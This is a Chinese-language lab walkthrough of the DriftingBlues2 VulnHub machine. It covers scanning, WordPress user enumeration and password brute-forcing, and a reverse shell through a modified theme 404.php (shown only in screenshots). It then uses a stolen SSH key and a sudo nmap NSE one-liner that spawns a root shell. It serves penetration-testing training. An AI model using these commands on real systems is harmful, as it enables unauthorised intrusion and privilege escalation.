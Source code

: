 ```yaml
---
title: driftingblues2 VulnHub Walkthrough
date: 2021-10-12 16:31:08
categories:
- 渗透测试
tags:
- VulnHub
---
```


## driftingblues2 VulnHub Walkthrough

### 信息收集

#### 主机探测

```
arp-scan -l
```

![](https://i.loli.net/2021/10/12/DINClwUz2k5udbh.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.171
```

![](https://i.loli.net/2021/10/12/VsW7DF1kaZpogI2.png)

开放端口：21(ftp)、22(ssh)、80(http)

可以匿名访问ftp服务，有一张图片，应该有隐藏的信息

![](https://i.loli.net/2021/10/12/pk4b8jfBOyKsQSg.png)

<img src="https://i.loli.net/2021/10/12/dEbtcZYKkvzCOBG.jpg" style="zoom: 25%;" />

图片先放着，访问80端口没什么东西，扫一下目录

```
dirsearch -u http://192.168.62.171/
```

![](https://i.loli.net/2021/10/12/orNt14jPdbzLQYT.png)

有个blog的路径，是wordpress搭建的，修改一下host文件再访问一下

![](https://i.loli.net/2021/10/12/EPg4VSAOrdJUueH.png)

![](https://i.loli.net/2021/10/12/Em8lMOsAgatJIwj.png)

用wpscan简单扫描没有发现有用信息，那就枚举一下出用户名

```
wpscan --url http://driftingblues.box/blog/ -e u
```

![](https://i.loli.net/2021/10/12/xW2hE8bMkJrjP9O.png)

再通过获取到的用户名albert，试试爆破密码

```
wpscan --url http://driftingblues.box/blog/ -U albert -P /usr/share/wordlists/rockyou.txt
```

![](https://i.loli.net/2021/10/12/6jwKtnJf4hSdF9o.png)

稍微等了一会就成功爆破出来了密码，那就用获取到的账号密码`albert:scotland1`登录后台

![](https://i.loli.net/2021/10/12/h6NLpYQCBe82ds3.png)

### Get Shell

通过修改主题的404.php来反弹shell

![](https://i.loli.net/2021/10/12/9ONakjD2EB6ny4u.png)

修改后先开启一个监听端口来接受shell

![](https://i.loli.net/2021/10/12/a8W6ZkJjGcMBlpF.png)

访问404.php成功反弹shell

![](https://i.loli.net/2021/10/12/lDcPjpYvOqwobHB.png)

![](https://i.loli.net/2021/10/12/7DuRciGkKm6JsyT.png)

靶机有python环境，可以获取一个交互式的shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://i.loli.net/2021/10/12/HuvbSQOLFjsTfZp.png)

进入到freddie的家目录，有ssh的key，我们将id_rsa下载到本地，进行免密登录

![](https://i.loli.net/2021/10/12/WAjV4Iuz61xQXi5.png)

```
ssh freddie@192.168.62.171 -i id_rsa
```

![](https://i.loli.net/2021/10/12/43WwvJiHIplaFgf.png)

得到第一个flag

<img src="https://i.loli.net/2021/10/12/1taln9PfMDVAb3v.png" style="zoom: 67%;" />

### 提权

![](https://i.loli.net/2021/10/12/A9zQxtDdcq8kEjp.png)

可以看出来，接下来需要用nmap提权

```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

![](https://i.loli.net/2021/10/12/yVPcajOXnBzpASK.png)

执行完获得root权限，但此时是看不到输入的，接着执行

```
reset
```

这时就可以获取第二个flag了

<img src="https://i.loli.net/2021/10/12/b5u36MeOmTI7w41.png" style="zoom:67%;" />

所以，一开始获取的图片还是没用上

